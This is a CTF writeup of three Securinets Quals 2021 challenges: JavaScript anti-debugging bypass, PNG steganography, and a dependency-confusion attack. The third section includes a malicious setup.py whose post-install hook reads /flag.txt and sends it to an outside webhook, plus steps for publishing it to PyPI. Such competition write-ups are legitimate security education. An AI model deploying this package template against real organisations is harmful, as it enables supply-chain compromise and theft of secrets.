<p align="center">

</p>

# CTFSecurinets Quals 2021 Writeup
This repository serves as a writeup for CTFSecurinets Quals 2021

## Bypass TheEmperor's Guards

**Category:** Web
**Points:** 584
**Solves:** 35
**Author:** TheEmperors
**Description:**

>TheEmperor created an HTML form where he was trying to show that he can store his password there without any risk thanks to his faithful guards that will prevent anyone from getting access to the flag.

>For simplicity reason, he knows that obfuscating so much the code would decrease its performance. That's why he only remained on his guards and for another simplicity reason, he didn't want to put a compact code (the code is beautified) since the objective is to test how powerful are his guards.

>Now, bypass TheEmperor's guards and get a full access to the empire with his mighty flag.

>Link: https://web3.q21.ctfsecurinets.com/

**Hint:**

> No hint.

<p align="center">

</p>

### Write-up
When you visit the task page, you will get this page

<p align="center">

</p>

When you look at [the source code of the web page](resources/web-584-bypass_the_emperors_guards/source_code/warmup.html):

<p align="center">

</p>

You'll see an obfuscated Javascript. And when you try to put dummy password in the form and you click on "login", you'll get this alert():

<p align="center">

</p>

Well, we need to check how we this alert was triggered. So in the source code, when we submit the form, the function `validateform()` is called.

<p align="center">

</p>

The first thing that I've tried to do is to check the developer's Network (by right click + inspect the element + go to Network tab), once I open the developers tool, the execution will be paused by the debugger

<p align="center">

</p>

And everytime I click on Resume, the "Call stack" start to getting bigger with a recursive execution on the same function that was calling debugger

<p align="center">

</p>

Maybe this is one of the guards that TheEmperor mentioned which is an anti-debugging technique that will prevent the developer to debug the script execution. This will be triggered once the developer's tool is opened before any other event is triggered.

For this anti-debugging technique there are at least 2 solutions as I think:

1. Bypass it: In order to bypass it, you need to trigger a breakpoint somewhere you need it just before the anti-debugging function is loaded. How is this possible ? You can have a demonstration in the following GIF:

<p align="center">

</p>

Well, the trick was to set a breakpoint in the validationform() function and once we load the dev tool, we need to trigger that function before the anti-debugging function will be loaded. That way we can force Javascript to execution the validationform() function first. But this should not too fast because the dev tool should be properly opened. Otherwise the breakpoint will not be triggered. This was one of the reason why the source code was beautified (so that participants can put breakpoints in the Javascript code from the web browser, otherwise they can download the source code and add the `debugger;` command anywhere before reloading the web page locally).

2. Remove it: If you want to remove the anti-debugger, you can check the `Call Stack` from the web browser (as I've mentioned earlier). And you'll need to get back to the parent functions and you'll need to find which function is most likely the anti-debugging one and you have to get rid of it literally. How can you do this? Well, you need to download the web page and run it locally. That's how you can easily tweak the code as your own way if you don't want to patch the functions.

<p align="center">

</p>

In the source code the function `_0x379548()`

<p align="center">

</p>

That function was located in the highlighted locations.

<p align="center">

</p>

And when I try to reload the web page locally, I can click on "login" easily without seeing the debugger loaded when I open the dev tool.

<p align="center">

</p>

Now, we can start solving the task.

In the validateform() function, there is a flag variable that seems to be interesting

<p align="center">

</p>

So, I put a breakpoint in after that instruction to inspect what's inside the flag variable

<p align="center">

</p>

If you're using the first method (bypassing the anti-debugger without removing it, you'll see strange output when you try to flag variable to see its content using 

And then I clicked on "login", the breakpoint was triggered and the execution stopped there. Now, I tried to see what's inside the flag variable using `console.log(flag)` or `alert(flag)`

<p align="center">

</p>

Whatever you put in those functions you'll get a missleaded output. Which means that these 2 functions were overrided and they are only working correctly for the "wrong message" and the "correct message". And these are probably the guards that are keeping us away from the flag. But no worries about this since we can see any variable content directly in the console

<p align="center">

</p>

But here we can see the flag variable is not just a single flag but it's a bunch of many flags that are different from those they are shown with the `console.log()` and `alert()` function. And these flags seems to be the correct ones since they don't contain special characters. But which one is the correct one?

PS: If you worked with the second method (remove the parent function's call, the overrided functions will work properly).

Now if you look at the next instructions you'll see a small code that looks obvious how it's supposed to work:

<p align="center">

</p>

This assemption came from the task description "the task is based on bypassing the guards not to make the obfuscation complicated".

When we look at the highlighted instructions we can see an if() and else() that will check the correct flag but inside a for() loop. And the loop for was parsing the flag array. When we put a breakpoint on the line 962 and run in the following instructions in the console:

<p align="center">

</p>

We can see that as our input is "test" and we know that the flag format is `Securinets{....}`, the first compared characters are "t" from "test" and "S" from "Securints" and the flag is constructed from the flag array as follow `flag[i][i]`.

Using the same instructions from the provided Javascript code:

<p align="center">

</p>

I was able to build the flag as follow:

<p align="center">

</p>

So the flag is `Securinets{TheEmeror_grant_you_s4f3ty_in_th3_Empire}`.

### Bonus part from the task writer:

I've created this task based on [the following script](resources/web-584-bypass_the_emperors_guards/original.js). And it was obfuscated using [obfuscator.io](https://obfuscator.io):

<p align="center">

</p>

___


## Exfiltration

**Category:** Steganography
**Points:** 793
**Solves:** 25
**Author:** TheEmperors & Lys
**Description:**

>2 spies were suspected to be involved in stoling secret data.

> According to the logs, the data was stolen when the first comment in the following tweet was published: https://twitter.com/_TheEmperors_/status/1373321585180966915

> After this incident, all the necessary actions were taken in place to remediate the breach.

> Hint: There is an important comment in this tweet apart the main tweet.

<p align="center">

</p>


### Write-up

When we access the tweet link we can see the following tweet and reply which are tied with the task since there are 2 spies:

<p align="center">

</p>
<p align="center">

</p>

When we click on the first image, we wait until it loads and we open it in a new tab then we download it, we'll get [this PNG file from the tweet](resources/steg-793-exfiltration/uploaded-to-twitter/photo1-new.png) and [this PNG file from the reply](resources/steg-793-exfiltration/uploaded-to-twitter/photo2-new.png).

This task was a steganography task. It depends on how people proceed, they can use binwalk, foremost, zsteg, etc...

For the first PNG file, using any of these tools will show that the PNG file contains a .zip file

```
zsteg Ew8EpIqW8AwjINW.png
```

<p align="center">

</p>

```
zsteg Ew8EpIqW8AwjINW.png -E extradata:0 > zip.zip
```

And we will get our [resources/steg-793-exfiltration/top-secret.zip file](resources/steg-793-exfiltration/original/top-secret.zip).

When we uncompress that file, we can see files with dummy and useless content

<p align="center">

</p>

From the task description, this was the secret data that was stolen and after that, remediation actions were taked. But since there are 2 spies, the second PNG image can provide us with additional details (probably it contains the flag).

```
zsteg Ew8Kkd-WQAAyZv8.png
```

<p align="center">

</p>

And then, we know this is hiding an mp3 file.

We can then extract it:

```
zsteg Ew8Kkd-WQAAyZv8.png -E extradata:0 > mp3.mp3
```

And we will get [this .mp3 file](resources/steg-793-exfiltration/original/2.mp3).

I've tried listening this file using VLC and I heard someone talking as follow:

```
Now that our secrts were stolen, someone seems to be looking for our flag that will give him access to our system. That's why the flag should be changed immediately! Who knows, maybe it's on the hand of our adversaries.
Listen everyone! Going forward, the flag is going to be as follow!
Securinets with an uppercase in the beginning.
Open curly braces.
Never gonne give you up, never gonna let you down, in lowercase separated with an underscore.
There is an additional underscore.
Five, seven, three, nine!
And then, close the curly braces.
```

So, the flag is ``Securinets{never_gonna_give_you_up_never_gonna_let_you_down_5739}``.

### Bonus from the authors

This was not a usual steganography task since there is another method that will spare you from extracting these files which is by renaming the files and using them respectively as ZIP (.zip) and MP3 (.mp3) files. This is what is called polyglot files.

And this technique works for these 2 file types in Twitter (recently discovered). More details about how his works, please check this Tweet:https://twitter.com/David3141593/status/1371974874856587268 And this tool: https://github.com/DavidBuchanan314/tweetable-polyglot-png

Now, if you download the MP3 file and you rename it as .mp3, you'll still hear the message.

You can find [the original files here if you want to redo the test](resources/steg-793-exfiltration/original/)
___


## Hack The Empire

**Category:** Misc
**Points:** 884
**Solves:** 19
**Author:** TheEmperors
**Description:**

>An enemy of The Empire have a job for you. As an adversary he want to hack CTFQ21EmpireTmp. He heard that in their server is hosting their holy flag in /flag.txt

>No IP address is needed in this task. Good luck.

̿̿> ̿̿ ̿̿ ̿'̿'\̵͇̿̿\з= ( ▀ ͜͞ʖ▀) =ε/̵͇̿̿/'̿'̿ ̿ ̿̿ ̿̿ ̿̿

>Important: Whatever was the solution that you're going to adopt, if you want to use webhooks, DO NOT USE any of those that allows other participants to see the flag (don't use webhook.site, you may let other participants to catch the flag from there) (for example you can use requestbin instead of webhook.site since the flag can be seen by the authenticated user). Think about using a method that will not leave anybody else to read the flag from your steps. And don't forget to remove your work after you solve the task to avoid anybody else to steal it.

>Hint 1: find the original web page (in the original website) that was sharing what you've found since that page is not updated

<p align="center">

</p>


### Write-up

The first impression when we read this description is `WHAT THE HELL???!!!`.

This is because how can we hack servers that we don't even have?

The answer could be obviously tagged in the description which is `CTFQ21EmpireTmp`.

Just with googling skills, we can get what we need since the target name seems unique.

Search: `"CTFQ21EmpireTmp"`

<p align="center">

</p>

We find this link: [https://ittone.ma/ittone/is-there-any-limit-in-pythons-requirements-txt-during-the-installation/](https://ittone.ma/ittone/is-there-any-limit-in-pythons-requirements-txt-during-the-installation/).

<p align="center">

</p>

The first hint was mentioning to find the original website. But when we check this website we can see that there is a missmatch with the website name: this website is called ittone and it contains a Stackoverflow question.

So when we search for that question in Stackoverflow we can find the original link here: [https://stackoverflow.com/questions/66717285/is-there-any-limit-in-pythons-requirements-txt-during-the-installation](https://stackoverflow.com/questions/66717285/is-there-any-limit-in-pythons-requirements-txt-during-the-installation)

<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>

The hint was in the right place since the other link that we've originally got was including an outdated data while the question was edited recently and there was reply.

Well, there are a lot of this that we need to understand from this question:

* The company is using private python packages that we don't know where they are located.

* The packages names follows this regex `ctf-q21-empire-tmp-[a-z0-9\-]{5,10}` and they have almost these regex combinations used in their private repository (they've literally mentioned they have billions of packages which is correct according to the regex `10^10`).

* The packages are scheduled to be installed every 5 minutes. So we might have to do something every 5 minutes (maybe the exploit can work every 5 minutes).

* They are using the following command to install the private packages listed in the `requirements.txt` file: `cat requirement.txt | pip3 install -I` with the configuration of pip:
```
[global]
extra-index-url = http://<private_IP_and_port>/simple/
trusted-host = <private_IP>
```

* They are using python3

* No additional public package is installed if it's not needed.

* etc

Well, there are a lot of details but this is what we need to remember from now.

It was strange why that person share the configuration file of the ``pip.conf``. But it was a good hint because when I tried to search in Google what was the `extra-index-url` parameter, I've found the following result:

<p align="center">

</p>

That CVE was recent:
```
CVE-2018-20225 python-pip: when --extra-index-url option is used and package does not already exist in the public index, the installation of malicious package with arbitrary version number is possible.
```

<p align="center">

</p>

It's true this is from Redhat bug tracker website but the description applies to all the destributions and it's not going to be fixed (WONTFIX).

After some Googling, I found this interesting article that describes the vulnerability: [https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)

<p align="center">

</p>

Which is called `Dependency confusion - From the Application Supply Chain Attack`.

Now, if we remember well, we know what our target is using as packages. We need to build a Python package that meets with the same regex using inside the analysis server. We have to specify a higher version and if the package is meant to be installed in the server, the public repository will be checked first as the company is using `extra-index-url` parameter linked to their private repository. So the priority is set with the PyPi (public repository) first.

What can we put in this package? Well, in the task description, they asked us to retrieve the holy flag from `/flag.txt`.

How can we get it since there is no web interface to see it? We can use a webhook. It was mentioned in the task description that we need to use private webhooks if we want it. Otherwise there are another solution that not everyone can afford to do it but it's going to be discussed here.

The first thing that we need to do is to create a python package that we can test its installation locally and once it works we can wait every 5 minutes and check the webhook whether it gets the request.

I've followed this tutorial on how to create a python package: [https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/)

And the setup.py included the following script:

```
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        #os.popen("pwd")
        import requests
        requests.get("https://ene63d9dv33i6ch.m.pipedream.net/?test="+os.popen("cat /flag.txt | base64").read())

setup(
    name='ctf-q21-empire-tmp-test123',
    description='The Emperor',
    version='9999.0.1',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand
    }
    )
```

Well, when I created a virtualenv with a fresh python3 installation just to test how the package is installed there:

```
virtualenv venv
source venv/bin/activate
pip install ctf-q21-empire-tmp-test123
```

The first time it didn't work when I didn't included `install_requires` because the package `requests` doesn't come with a fresh python installation. It was mentioned in the Stackoverflow question that there was no public packages initially installed. And when we install that package, we have to inform the setup package that we will import `requests` and we will request the webhook after the installation.

Why did I used base64? Basically it's an instinct. You never know what's inside the /flag.txt file and when it contains any special character that could break the python instruction and that would fail and this was the case since we've discovered that the flag.txt file contains multiline text content.

Now I can build the package and send it the PyPi:

```
 rm -rf dist/*; python3 setup.py sdist;twine upload dist/ctf-q21-empire-tmp-test123*
# Put the credentials
```

Then you'll see your package published there: 

<p align="center">

</p>

You can check the built project here: [ctf-q21-empire-tmp-test123-9999.0.2.tar](resources/misc-884-hack_the_empire/ctf-q21-empire-tmp-test123-9999.0.2.tar)

Then I waited few minutes (max 5 minutes and I've received the flag once):

<p align="center">

</p>

URL: `https://ene63d9dv33i6ch.m.pipedream.net/?answer=VGhpcyBpcyB3aGF0IHdlIGNhbGwgJ0RlcGVuZGVuY3kgY29uZnVzaW9uJ1xudGhhdCBpcyB3ZWxs%0AIGV4cGxhaW5lZCBoZXJlICh0aGlzIGlzIG5vdCBteSBhcnRpY2xlIGJ1dCBJIGxpa2VkIGl0KSBo%0AdHRwczovL21lZGl1bS5jb20vQGFsZXguYmlyc2FuL2RlcGVuZGVuY3ktY29uZnVzaW9uLTRhNWQ2%0AMGZlYzYxMCAuXG4gV2hpY2ggaXMgcGFydCBvZiB0aGUgT3BlbiBTb3VyY2UgU29mdHdhcmUgU3Vw%0AcGx5IENoYWluIEF0dGFja3MuXG5GbGFnOiBTZWN1cmluZXRze0QzUDNOZDNuY3lfQzBuRnU1IW5f%0AeERfd2VyZV95b3VfY29uZnVzZWRfZW5vdWdofVxuV2UgZGlkbid0IHdhbnQgdG8gbWFrZSBpdCBt%0Ab3JlIGRpZmZpY3VsdCB0byB0YWtlIGluIGNvbnNpZGVyYXRpb24gd2hhdCBhbGwgdGhlIHRlYW1z%0AIG5lZWQgYXMgcmVxdWlyZW1lbnRzLiBUaGlzIGlzIHdoeSBmb3IgdGhlIHRpbWUgYmVpbmcgd2Ug%0AYXJlIG5vdCByZXF1ZXN0aW5nIGRpZmZpY3VsdCB0YXNrIChqdXN0IHJlYWQgdGhpcyBmaWxlIGlz%0AIGVub3VnaCkgYnV0IHRoZSBtaXNzY29uZmlndXJhdGlvbiBoZXJlIGlzIHRpZWQgd2l0aCB0aGUg%0ALS1leHRyYS1pbmRleC11cmwuIFlvdSBjYW4gY2hlY2sgdGhlIC9ldGMvcGlwLmNvbmYgaWYgeW91%0AIGFyZSBjdXJpb3VzIHRvIHNlZSBpZiB0aGlzIGlzIGEgcmVhbCB0YXNrIG9yIHdhcyBpdCBmYWtl%0AZC4=%0A`

Now, when I take the answer's value and I decode it in a base64 decoding tool, I can see the following output: [https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true)](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true))

<p align="center">

</p>

Output:

```
This is what we call 'Dependency confusion'\nthat is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .\n Which is part of the Open Source Software Supply Chain Attacks.\nFlag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}\nWe didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```

So, the flag is: `Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}`.

### Bonus from the author

The task became easy from the beginning when the published packages were discovered to be leaked in Tencent mirrors quickly and they are indexed in Google cache. And even though, the participant should know how the dependency confusion works, what he should perform and why it worked in this case. Otherwise, people will try to upload stolen packages without modifying the payloads or they try to execute it locally which is not the recommended solution.
___


# Scoreboard

This is the tasks list released on the CTF and the scoreboard that you can find in [ctftime](https://ctftime.org/event/1308):

<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>

